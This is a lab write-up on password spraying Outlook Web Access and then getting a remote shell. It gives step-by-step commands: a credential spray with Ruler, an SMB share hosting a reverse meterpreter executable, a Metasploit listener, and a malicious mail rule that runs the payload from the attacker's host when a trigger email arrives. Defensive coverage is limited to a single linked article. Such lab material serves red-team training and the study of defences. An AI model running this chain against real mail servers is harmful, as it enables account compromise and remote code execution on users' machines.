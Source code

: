 # Password Spraying Outlook Web Access: Remote Shell

## Context

This lab looks at an attacking technique called password spraying as well as abusing Outlook Web Application by exploiting mail rules to get a remote shell using a tool called `Ruler`.

## Defininitions

**Password spraying** is an attacking technique and a form of password brute-forcing. In password spraying, an attacker cycles through a list of possible usernames \(found using OSINT techniques against a target company or other means\) with a couple of most common passwords. In comparison, a traditional bruteforce works by selecting a username from the list and trying all the passwords in the wordlist against that username. Once all passwords are exhausted, another username is chosen from the list and the process repeats.

Password spraying could be illustrated with the following table:

| User | Password |
| :--- | :--- |
| john | Winter2018 |
| ben | Winter2018 |
| ... | Winter2018 |
| john | December2018! |
| ben | December2018! |
| ... | December2018! |

Standard password bruteforcing could be illustrated with the following table:

| User | Password |
| :--- | :--- |
| john | Winter2018 |
| john | Winter2018! |
| john | Password1 |
| ben | Winter2018 |
| ben | Winter2018! |
| ben | Password1 |

## Password Spraying

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-12-23-15-09-03.png)

![](../.gitbook/assets/peek-2018-12-23-15-07.gif)

The above shows that password spray was successful against the user `spotless` who used a weak password `123456`.

Note, that if you are attempting to replicate this technique in your own labs, you may need to update your /etc/hosts to point to your Exchange server:

![](../.gitbook/assets/screenshot-from-2018-12-23-15-08-18.png)

## Getting a Shell via Malicious Email Rule

### Overview

If password spray against an Exchange server was successful and you have obtained valid credentials, you can leverage `Ruler` to create a malicious email rule to gain remote code execution on the host that checks that compromised mailbox.

A high level overwiew of how the spraying and remote code execution works:

* you have obtained working credentials during the spray for the user `spotless@offense.local`
* witht the help of `Ruler`, a malicious mail rule is created for the compromised account which in our case is `spotless@offense.local`. The rule created will conform to the format along the lines of: `if emailSubject contains` **`someTriggerWord`**_`start`_**`pathToSomeProgram`**
* A new email with subject containing `someTriggerWord` is sent to the `spotless@offense.local`
* User spotless logs on to his/her workstation and launches Outlook to check for new email
* Malicious email comes in and the malicious mail rule is triggered, which in turn launches starts the program specified in `pathToSomeProgram`

### Execution

Let's validate the credentials are working by checking if there are any email rules created already:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```
{% endcode-tabs-item %}
{% endcode-tabs %}

The below suggests the credentials are working and that no mail rules are set for this account:

![](../.gitbook/assets/screenshot-from-2018-12-23-17-15-36.png)

To carry the attack further, I've generated a reverse meterpreter payload and saved it as a windows executable and saved it to `/root/tools/evilm64.exe`

We need to create an SMB share of the location where our evilm64.exe is located - this is the program we want executed on the host that checks the mailbox for which we have compromised the credentials during the password spray:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
smbserver.py tools /root/tools/
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Next, we setup a metasploit listener to catch the reverse shell:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
use exploit/multi/handler 
set lhost 10.0.0.5
set lport 443
exploit
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Finally, we fire up the ruler and create the malicious email rule, to get remote code execution:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below shows the entire attack and all of the steps mentioned above in action - note how the compromised mailbox does not even get to see the malicious email coming in:

![](../.gitbook/assets/peek-2018-12-23-18-13.gif)

Below shows the actual malicious rule that got created as part of the attack - note the `subject` and the `start` properties - we specified them in the ruler command:

![](../.gitbook/assets/screenshot-from-2018-12-23-18-17-10.png)

If you want to delete the malicious email rule, do this:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456 delete --name maliciousrule
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Detection & Mitigation

{% embed url="https://www.microsoft.com/en-us/microsoft-365/blog/2018/03/05/azure-ad-and-adfs-best-practices-defending-against-password-spray-attacks/" %}

## References

{% embed url="https://github.com/sensepost/ruler/wiki" %}



